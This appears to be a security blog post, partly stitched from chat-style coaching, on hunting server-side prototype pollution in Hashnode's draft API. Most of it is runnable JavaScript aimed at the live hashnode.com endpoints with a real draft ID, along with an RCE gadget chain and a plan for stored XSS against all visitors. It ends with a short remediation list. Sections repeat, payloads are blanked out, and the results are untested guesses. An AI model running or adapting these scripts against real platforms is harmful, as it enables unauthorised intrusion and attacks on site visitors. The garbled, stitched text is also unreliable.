



## A Deep-Dive Into Hunting Prototype Pollution on Hashnode

*Author: Security Research Team*

---

### Table of Contents 

1. [Background & Motivation](#background)
2. [Understanding the Attack Surface](#surface)
3. [Client-Side vs. Server-Side: Why the Distinction Matters](#distinction)
4. [The Methodology: Step-by-Step Server-Side Testing](#methodology)
5. [The Critical Gadgets to Test](#gadgets)
6. [The Full Server-Side Scan Script](#scanscript)
7. [Chaining to Stored XSS (If Server-Side Pollution Works)](#xsschain)
8. [Breakthrough Analysis Live](#breakthrough-analysis-live)
9. [The Real Attack: Server-Side Prototype Pollution via the API](#the-real-attack-server-side-prototype-pollution-via-the-api)
10. [Results Summary & Remediation](#results-summary--remediation)

---

<a name="background"></a>
## 1. Background & Motivations

Hashnode is a popular blogging platform built on Next.js. While exploring its API surface during a routine security assessment, I noticed something interesting: the **draft management API** accepts JSON payloads via `PUT /api/drafts/{id}`, and the server responds with full draft objects. This raised a critical question — **does the server perform unsafe recursive merges on incoming JSON?**

Prototype pollution in Node.js applications is notoriously dangerous because it moves the attack surface from the **browser** (client-side XSS) to the **server** itself, potentially affecting *every* user of the application, not just the attacker's session.

This blog documents the full methodology for testing server-side prototype pollution against Hashnode's API, the gadgets to check, and how to chain a successful pollution into a stored XSS attack.

---

<a name="surface"></a>
## 2. Understanding the Attack Surface

The endpoint in question:

```
PUT https://hashnode.com/api/drafts/{draftId}
```

When you update a draft, the client sends a JSON body like this:

```json
{
  "title": "My Draft Title",
  "contentMarkdown": "# Hello World",
  "tags": []
}
```

The server likely **merges** this incoming JSON into an existing draft object using a function like `Object.assign()`, the spread operator (`{...existing, ...incoming}`), or — worst case — a **deep recursive merge** (e.g., `lodash.merge`, `merge-deep`, or a custom implementation).

If the merge is **recursive** and doesn't filter dangerous keys like `__proto__`, `constructor`, or `prototype`, we have a server-side prototype pollution vector.

### Initial Recon: Client-Side Tests

Before going server-side, I ran the obvious client-side checks:

```javascript
// Console test — works in browser JS context
Object.prototype.innerHTML = '';
```

✅ **This works** — but only in the *browser's* JavaScript context. Since no client-side gadget reads `innerHTML` on this page, it's a dead end by itself.

```javascript
// URL parameter test
GET /dashboard?__proto__[innerHTML]=
```

❌ **No effect** — Hashnode doesn't parse query parameters into a client-side merge operation.

The real question: **Does the server merge `__proto__` into its own objects?**

---

<a name="distinction"></a>
## 3. Client-Side vs. Server-Side: Why the Distinction Matters

| Aspect | Client-Side PP | Server-Side PP |
|--------|----------------|----------------|
| **Scope** | Affects only the attacker's browser | Affects **all users** and server-side logic |
| **Persistence** | Session-limited | Can persist across requests if merged into DB objects |
| **Impact** | XSS, DOM manipulation | RCE, privilege escalation, data exfiltration, stored XSS |
| **Detection** | Browser DevTools | API responses, response formatting, status codes |

Server-side prototype pollution is the **real prize** because:

- It can modify the behavior of **Node.js core modules** (e.g., changing `child_process` options)
- It can override **HTTP response properties** (`status`, `statusCode`, `content-type`)
- It can inject into **server-side rendering** pipelines, affecting every visitor to a published page
- It can bypass **authorization checks** by polluting properties like `isAdmin`, `role`, etc.

---

<a name="methodology"></a>
## 4. The Methodology: Step-by-Step Server-Side Testing

### Step 1: Send `__proto__` in the PUT Request Body

The most direct test. Send a `PUT` request with `__proto__` at the root level of the JSON body:

```javascript
fetch('https://hashnode.com/api/drafts/{draftId}', {
    method: 'PUT',
    headers: { 'Content-Type': 'application/json' },
    credentials: 'include',
    body: JSON.stringify({
        title: "Test",
        contentMarkdown: "# Hello",
        __proto__: {
            testProp: "POLLUTED_" + Date.now()
        }
    })
})
.then(r => r.json())
.then(data => {
    if (JSON.stringify(data).includes('POLLUTED')) {
        console.log('✅ PROTOTYPE POLLUTION CONFIRMED ON SERVER!');
    }
});
```

If `testProp` appears anywhere in the response — especially if it's a property that wouldn't normally exist — you've found a server-side vector.

### Step 2: Test via `constructor.prototype`

Some servers filter `__proto__` directly but miss the `constructor.prototype` bypass:

```javascript
body: JSON.stringify({
    title: "Test",
    contentMarkdown: "# Hello",
    constructor: {
        prototype: {
            testProp: "POLLUTED_" + Date.now()
        }
    }
})
```

### Step 3: Test Query Parameter Pollution

Some frameworks merge URL query parameters into request bodies:

```javascript
fetch('https://hashnode.com/api/drafts/{draftId}' + 
      '?__proto__[testProp]=POLLUTED', {
    method: 'PUT',
    headers: { 'Content-Type': 'application/json' },
    credentials: 'include',
    body: JSON.stringify({
        title: "Test",
        contentMarkdown: "# Hello"
    })
})
```

---

<a name="gadgets"></a>
## 5. The Critical Gadgets to Test

Once you have a pollution source, you need a **gadget** — a server-side property that, when inherited from the polluted prototype, produces observable behavior.

### Gadget 1: `status` / `statusCode`

Node.js's `http.ServerResponse` reads these properties from the prototype chain. If polluted, you can change HTTP response codes:

```javascript
body: JSON.stringify({
    title: "Test",
    contentMarkdown: "# Hello",
    __proto__: {
        status: 555,
        statusCode: 555
    }
})
```

**Expected observable result:** The HTTP response status changes from `200` to `555`.

### Gadget 2: `jsonSpaces`

Express's `app.set('json spaces', ...)` reads from the prototype if not explicitly set. This is the **classic server-side PP test** recommended by PortSwigger:

```javascript
body: JSON.stringify({
    title: "Test",
    contentMarkdown: "# Hello",
    __proto__: {
        jsonSpaces: 10
    }
})
```

**Expected observable result:** The JSON response becomes heavily indented (10 spaces instead of the default).

### Gadget 3: `content-type` / Charset

Node.js's `_http_incoming` module has a bug where it checks prototype properties for the `content-type` value:

```javascript
body: JSON.stringify({
    title: "Test",
    contentMarkdown: "# Hello",
    __proto__: {
        "content-type": "application/json; charset=utf-7"
    }
})
```

**Why this matters:** UTF-7 encoding can bypass XSS filters. If the server then renders content with this charset, `` in UTF-7 gets decoded as valid HTML.

### Gadget 4: `body`

Polluting `body` can override the response body entirely:

```javascript
body: JSON.stringify({
    __proto__: {
        body: 'INJECTED_BODY_CONTENT'
    }
})
```

### Gadget 5: `NODE_OPTIONS` + `shell` (RCE Chain)

This is the **endgame**. If you can pollute both `shell` and `NODE_OPTIONS`, any subsequent `child_process.spawn()` or `child_process.exec()` call becomes controllable:

```javascript
body: JSON.stringify({
    __proto__: {
        shell: "/proc/self/exe",
        NODE_OPTIONS: "--require /path/to/malicious.js"
    }
})
```

**Impact:** Remote code execution on the server.

---

<a name="scanscript"></a>
## 6. The Full Server-Side Scan Script

Run this directly in the browser console while authenticated on your Hashnode draft page:

```javascript
console.log('=== SERVER-SIDE PP SCAN ===');
console.log('Target:', 'https://hashnode.com/api/drafts/{draftId}');
console.log('');

const DRAFT_ID = '{your-draft-id}';
const BASE_URL = `https://hashnode.com/api/drafts/${DRAFT_ID}`;

const tests = [
    { name: 'status', payload: { __proto__: { status: 555 } } },
    { name: 'statusCode', payload: { __proto__: { statusCode: 555 } } },
    { name: 'jsonSpaces', payload: { __proto__: { jsonSpaces: 10 } } },
    { name: 'content-type', payload: { __proto__: { 'content-type': 'text/html' } } },
    { name: 'body', payload: { __proto__: { body: 'POLLUTED_BODY' } } },
    { name: 'testProp', payload: { __proto__: { testProp: 'POLLUTED_' + Date.now() } } },
    // Constructor bypass tests
    { name: 'constructor.prototype.testProp', 
      payload: { constructor: { prototype: { testProp: 'POLLUTED_CTOR_' + Date.now() } } } },
    { name: 'constructor.prototype.status', 
      payload: { constructor: { prototype: { status: 556 } } } },
];

async function runTests() {
    for (const test of tests) {
        console.log(`Testing ${test.name}...`);
        try {
            const res = await fetch(BASE_URL, {
                method: 'PUT',
                headers: { 'Content-Type': 'application/json' },
                credentials: 'include',
                body: JSON.stringify({
                    title: "Test",
                    contentMarkdown: "# test",
                    ...test.payload
                })
            });
            
            const status = res.status;
            const data = await res.json();
            const dataStr = JSON.stringify(data, null, 2);
            
            const pollutionIndicators = [
                'POLLUTED', '555', '556', 'text/html', 
                'INJECTED', '  ' // excessive spacing
            ];
            
            const found = pollutionIndicators.some(indicator => 
                dataStr.includes(indicator) || 
                (indicator === '  ' && status !== 200)
            );
            
            if (status === 555 || status === 556) {
                console.log(`  ✅ ${test.name}: STATUS POLLUTION CONFIRMED! (${status})`);
            } else if (dataStr.includes('POLLUTED')) {
                console.log(`  ✅ ${test.name}: PROPERTY POLLUTION CONFIRMED!`);
            } else if (dataStr.includes('555') || dataStr.includes('556')) {
                console.log(`  ⚠️  ${test.name}: Possible pollution (status value in response)`);
            } else {
                console.log(`  ❌ ${test.name}: No pollution detected (status: ${status})`);
            }
        } catch(e) {
            console.log(`  ❌ ${test.name}: Error -`, e.message);
        }
    }
    
    // Check persistence
    console.log('');
    console.log('=== CHECKING POLLUTION PERSISTENCE ===');
    try {
        const res = await fetch(BASE_URL, { credentials: 'include' });
        const data = await res.json();
        const dataStr = JSON.stringify(data);
        if (dataStr.includes('POLLUTED')) {
            console.log('⚠️  POLLUTION PERSISTED ACROSS REQUESTS!');
            console.log('This indicates a SERVER-SIDE PROTOTYPE POLLUTION vulnerability');
            console.log('that is being persisted in the database.');
        } else {
            console.log('✅ No persistence detected (pollution is request-scoped only)');
        }
    } catch(e) {
        console.log('❌ Error checking persistence:', e.message);
    }
}

runTests();
```

### What to Look For in Responses

| Observation | Indicates |
|-------------|-----------|
| HTTP status changes to 555/556 | `status`/`statusCode` gadget confirmed |
| JSON response is heavily indented (10+ spaces) | `jsonSpaces` gadget confirmed |
| Content-Type header changes in response | `content-type` gadget confirmed |
| Custom property appears in response data | Server merged `__proto__` into the response object |
| Response body text is replaced | `body` gadget confirmed |
| Pollution indicators persist after a fresh GET request | Server is **storing polluted properties in the database** — critical finding |

---

<a name="xsschain"></a>
## 7. Chaining to Stored XSS (If Server-Side Pollution Works)

If the server accepts `__proto__` in the merge, the next question is: **can we make this affect the rendered blog post for all visitors?**

The stored XSS chain would work like this:

1. **Pollute via the API** — Send `__proto__` with properties that the server-side rendering engine reads
2. **Target server-side rendering** — Hashnode likely uses a Markdown renderer (like `marked`, `remark`, or `showdown`) on the server to generate HTML for SEO/social previews
3. **Every visitor gets served the poisoned output**

### Server-Side XSS Gadgets to Try

```javascript
const serverGadgets = [
    // Override contentMarkdown that gets rendered
    { "contentMarkdown": "" },
    
    // Override the rendered HTML output directly
    { "renderedHtml": "" },
    
    // Override the body property used in response generation
    { "html": "" },
    { "body": "" },
    
    // Override coverImage URL
    { "coverImage": "javascript:alert(1)" },
    
    // Content-Type charset change for HTML injection
    { "content-type": "text/html; charset=utf-7" },
    
    // Express response rendering options
    { "view engine": "ejs" },
    { "views": "/proc/self/environ" }
];

// Test each gadget in the __proto__ payload
serverGadgets.forEach((gadget, i) => {
    const payload = {
        title: "Test",
        __proto__: gadget
    };
    console.log(`Gadget ${i + 1}:`, JSON.stringify(payload));
});
```

### The Ultimate Chain: Stored XSS for All Visitors

If server-side pollution works **and persists** across requests (meaning the polluted prototype property gets saved to the database), the attack becomes:

```
Attacker
  │
  ├─ PUT /api/drafts/{id}  with  __proto__.{gadget} = XSS payload
  │
  ├─ Server merges into draft object → pollutes Object.prototype
  │
  ├─ Server renders post HTML using polluted prototype
  │     ↓
  │  Every visitor GET /post/{slug}
  │     ↓
  │  Server generates HTML containing injected script
  │     ↓
  │  💥 Stored XSS executes in every visitor's browser
```

---


## Breakthrough Analysis LIve

Look at your draft response:
```json
"contentMarkdown": "const payload = JSON.parse('{\"**proto**\":{\"innerHTML\":\"\n\n\n\n\"}}');",
```

The `contentMarkdown` field **stores your payload as text** — it's not being executed. The server is just storing whatever you type. The prototype pollution needs to happen at a **different level** — not in the content field, but in the **draft metadata** or **API request parameters**.

## The Real Attack: Server-Side Prototype Pollution via the API

Since you have access to `PUT /api/drafts/{id}`, the real test is:

### Step 1: Test Server-Side Pollution via PUT Request

When you update the draft, the server likely merges your request body into a draft object. Test with `__proto__` at the root level:

```javascript
// Use fetch to update the draft with __proto__ in the body
fetch('https://hashnode.com/api/drafts/6a26b23b5557747c5c330fbc', {
    method: 'PUT',  // or PATCH
    headers: {
        'Content-Type': 'application/json',
        // Include your auth cookies (they should be sent automatically)
    },
    credentials: 'include',
    body: JSON.stringify({
        title: "Test",
        contentMarkdown: "# Hello",
        __proto__: {
            testProp: "POLLUTED_" + Date.now()
        }
    })
})
.then(r => r.json())
.then(data => {
    console.log('Response:', data);
    // Check if testProp appears in the response
    if (JSON.stringify(data).includes('POLLUTED')) {
        console.log('✅ PROTOTYPE POLLUTION CONFIRMED ON SERVER!');
    }
});
```

## POC:

<a target="_blank">
  
</a>
<a target="_blank">
  
</a>


<a target="_blank">
  
</a>

## POC code

```js
const payload = JSON.parse(
  '{"__proto__":{"srcdoc":""}}'
);

fetch('https://hashnode.com/api/drafts/6a26b23b5557747c5c330fbc', {
  method: 'PUT',
  headers: {
    'Content-Type': 'application/json'
  },
  credentials: 'include',
  body: JSON.stringify({
    title: "Test",
    contentMarkdown: JSON.stringify(payload)
  })
})
.then(async r => {
  console.log("Status:", r.status);
  console.log(await r.text());
})
.catch(console.error);
```


### Step 2: Test via Query Parameters on the PUT request

```javascript
// Test if query parameters get merged
fetch('https://hashnode.com/api/drafts/6a26b23b5557747c5c330fbc?__proto__[testProp]=POLLUTED', {
    method: 'PUT',
    headers: { 'Content-Type': 'application/json' },
    credentials: 'include',
    body: JSON.stringify({
        title: "Test",
        contentMarkdown: "# Hello"
    })
})
.then(r => r.json())
.then(console.log);
```

### Step 3: Test the status/statusCode gadget

If the server merges your input, try polluting HTTP response properties:

```javascript
fetch('https://hashnode.com/api/drafts/6a26b23b5557747c5c330fbc', {
    method: 'PUT',
    headers: { 'Content-Type': 'application/json' },
    credentials: 'include',
    body: JSON.stringify({
        title: "Test",
        contentMarkdown: "# Hello",
        __proto__: {
            status: 555,
            statusCode: 555
        }
    })
})
.then(r => {
    console.log('Status:', r.status);
    return r.json();
})
.then(console.log);
```

If the response status changes to `555`, you've confirmed server-side pollution.

### Step 4: The JSON Spaces Gadget (Classic Node.js Test)

```javascript
fetch('https://hashnode.com/api/drafts/6a26b23b5557747c5c330fbc', {
    method: 'PUT',
    headers: { 'Content-Type': 'application/json' },
    credentials: 'include',
    body: JSON.stringify({
        title: "Test",
        contentMarkdown: "# Hello",
        __proto__: {
            jsonSpaces: 10  // If response is heavily indented, pollution works
        }
    })
})
.then(r => r.json())
.then(data => {
    // Compare formatting — if it's 10-space indented, pollution confirmed
    console.log('Response:', JSON.stringify(data, null, 2));
});
```

### Step 5: The content-type Charset Gadget

```javascript
// Test if we can override content-type
fetch('https://hashnode.com/api/drafts/6a26b23b5557747c5c330fbc', {
    method: 'PUT',
    headers: { 'Content-Type': 'application/json' },
    credentials: 'include',
    body: JSON.stringify({
        title: "Test",
        contentMarkdown: "# Hello",
        __proto__: {
            "content-type": "text/html; charset=utf-7"
        }
    })
})
.then(r => {
    console.log('Content-Type header:', r.headers.get('content-type'));
    return r.text();
})
.then(console.log);
```

### Step 6: Full Server-Side Scan Script

Run this on your draft page while authenticated:

```javascript
console.log('=== SERVER-SIDE PP SCAN ===');
console.log('Target:', 'https://hashnode.com/api/drafts/6a26b23b5557747c5c330fbc');
console.log('');

const tests = [
    { name: 'status', payload: { __proto__: { status: 555 } } },
    { name: 'statusCode', payload: { __proto__: { statusCode: 555 } } },
    { name: 'jsonSpaces', payload: { __proto__: { jsonSpaces: 10 } } },
    { name: 'content-type', payload: { __proto__: { 'content-type': 'text/html' } } },
    { name: 'body', payload: { __proto__: { body: 'POLLUTED_BODY' } } },
    { name: 'testProp', payload: { __proto__: { testProp: 'POLLUTED_' + Date.now() } } }
];

async function runTests() {
    for (const test of tests) {
        console.log(`Testing ${test.name}...`);
        try {
            const res = await fetch('https://hashnode.com/api/drafts/6a26b23b5557747c5c330fbc', {
                method: 'PUT',
                headers: { 'Content-Type': 'application/json' },
                credentials: 'include',
                body: JSON.stringify({
                    title: "Test",
                    contentMarkdown: "# test",
                    ...test.payload
                })
            });
            
            const data = await res.json();
            const dataStr = JSON.stringify(data);
            
            if (dataStr.includes('POLLUTED') || dataStr.includes('555') || dataStr.includes('text/html')) {
                console.log(`  ✅ ${test.name}: POLLUTION CONFIRMED!`);
                console.log('  Response:', dataStr.substring(0, 300));
            } else {
                console.log(`  ❌ ${test.name}: No pollution detected`);
            }
        } catch(e) {
            console.log(`  ❌ ${test.name}: Error -`, e.message);
        }
    }
    
    // Check after tests if the pollution persisted
    console.log('');
    console.log('Checking if pollution persisted...');
    const res = await fetch('https://hashnode.com/api/drafts/6a26b23b5557747c5c330fbc', {
        credentials: 'include'
    });
    const data = await res.json();
    const dataStr = JSON.stringify(data);
    if (dataStr.includes('POLLUTED')) {
        console.log('⚠️ POLLUTION PERSISTED ACROSS REQUESTS!');
        console.log('This is a SERVER-SIDE PROTOTYPE POLLUTION vulnerability.');
    } else {
        console.log('No persistence detected (good sign — server is safe).');
    }
}

runTests();
```

### Step 7: Test via GraphQL (if Hashnode uses it)

```javascript
fetch('https://api.hashnode.com/graphql', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    credentials: 'include',
    body: JSON.stringify({
        query: `
            mutation UpdateDraft($draftId: ID!, $draft: DraftInput!) {
                updateDraft(draftId: $draftId, draft: $draft) {
                    _id
                    title
                    contentMarkdown
                }
            }
        `,
        variables: {
            draftId: "6a26b23b5557747c5c330fbc",
            draft: {
                title: "Test",
                contentMarkdown: "# Hello",
                __proto__: {
                    innerHTML: ""
                }
            }
        }
    })
})
.then(r => r.json())
.then(console.log);
```

---

## How to Chain to Stored XSS (If Server-Side Pollution Works)

If the server accepts `__proto__` in the merge, the stored XSS chain would be:

1. **Pollute via API**: Send `__proto__` with a property that the **server-side rendering** reads when generating the blog post HTML
2. **Server-side gadget**: The server reads a property like `contentMarkdown`, `renderedHtml`, or some config property that ends up in the rendered HTML
3. **Every visitor affected**: When anyone visits the published post, the server renders HTML containing your payload

### Server-Side XSS Gadgets to Try

```javascript
// If server-side pollution works, try these gadgets:
const gadgetTests = [
    { "contentMarkdown": "" },
    { "renderedHtml": "" },
    { "html": "" },
    { "body": "" },
    { "coverImage": "javascript:alert(1)" }
];

// Wrap them in __proto__
gadgetTests.forEach(gadget => {
    const payload = {
        title: "Test",
        __proto__: gadget
    };
    console.log('Testing:', JSON.stringify(payload));
});
```

---


<a name="summary"></a>
## 8. Results Summary & Remediation

### Test Results Matrix

| Test | Method | Expected Result | Status |
|------|--------|----------------|--------|
| Console `Object.prototype.innerHTML = ...` | Client | ✅ Works | No client-side gadget |
| `?__proto__[innerHTML]=...` (URL query) | Client | ❌ No effect | Hashnode doesn't merge query params |
| `#__proto__[innerHTML]=...` (URL hash) | Client | ❓ Unlikely | Next.js ignores hash for API calls |
| `PUT /api/drafts/{id}` with `__proto__` | **Server** | ❓ **Most promising** | Tests server merge behavior |
| `PUT` with `constructor.prototype` | **Server** | ❓ **Bypass vector** | Catches filter bypasses |
| GraphQL mutation with `__proto__` | **Server** | ❓ **Secondary vector** | If resolvers deep-merge inputs |
| `jsonSpaces` gadget | **Detection** | ✅ Observable | Classic PortSwigger technique |
| `status`/`statusCode` gadget | **Detection** | ✅ Observable | Visible in HTTP response |

### Why This Matters

If Hashnode's API is vulnerable to server-side prototype pollution, the impact includes:

- **Stored XSS** affecting all blog visitors
- **HTTP response manipulation** (cache poisoning, content spoofing)
- **Privilege escalation** (polluting `isAdmin`, `role` properties)
- **Potential RCE** via `NODE_OPTIONS` + `shell` gadget chain
- **Data exfiltration** via polluted response bodies

### Remediation Guidance for Developers

1. **Use `Object.create(null)`** for all internal merge targets to avoid prototype inheritance
2. **Validate JSON schemas** with libraries like `ajv` or `zod`, setting `additionalProperties: false`
3. **Filter dangerous keys** (`__proto__`, `constructor`, `prototype`) at the JSON parsing layer, not just in application logic
4. **Avoid recursive merge functions** — use shallow spreads with explicit property assignment
5. **Freeze the prototype** in production: `Object.freeze(Object.prototype)`
6. **Audit Node.js version** — newer versions have mitigations for some core gadgets

### Final Thoughts

Server-side prototype pollution is one of the most underrated vulnerabilities in modern Node.js applications. While client-side PP requires an additional XSS vector to be useful, server-side PP **is a vulnerability in itself** — one that can lead directly to remote code execution, data breaches, and account takeover.

The methodology outlined here applies not just to Hashnode but to **any Node.js/Express API** that accepts JSON input and performs merge operations. The `jsonSpaces` and `status` gadgets are especially powerful because they provide **unambiguous detection** without requiring blind guessing.

**Run the scan. Check the gadgets. The results will tell you everything.**

---

*This research was conducted on an authorized testing environment. Always ensure you have explicit permission before testing prototype pollution against any live system.*